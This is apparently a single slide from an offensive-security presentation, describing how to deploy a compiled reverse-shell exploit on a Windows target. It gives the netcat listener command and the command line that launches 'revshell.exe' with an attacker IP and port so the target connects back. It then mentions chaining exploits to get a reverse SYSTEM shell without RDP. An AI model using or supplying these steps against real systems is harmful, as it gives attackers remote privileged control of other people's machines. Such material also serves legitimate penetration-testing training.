

Copy and Launch
Once compiled, copy over to your Windows target with system privs

This exploit can be called from the command line and takes an IP and port as an argument

It will attempt to connect back to a listener

Set up your listener
$ nc -nlvp 4444

Launch the expoit
C:\> revshell.exe 10.10.0.10 4444

With more work, it is possible to combine these exploits to get a reverse SYSTEM shell without relying on RDP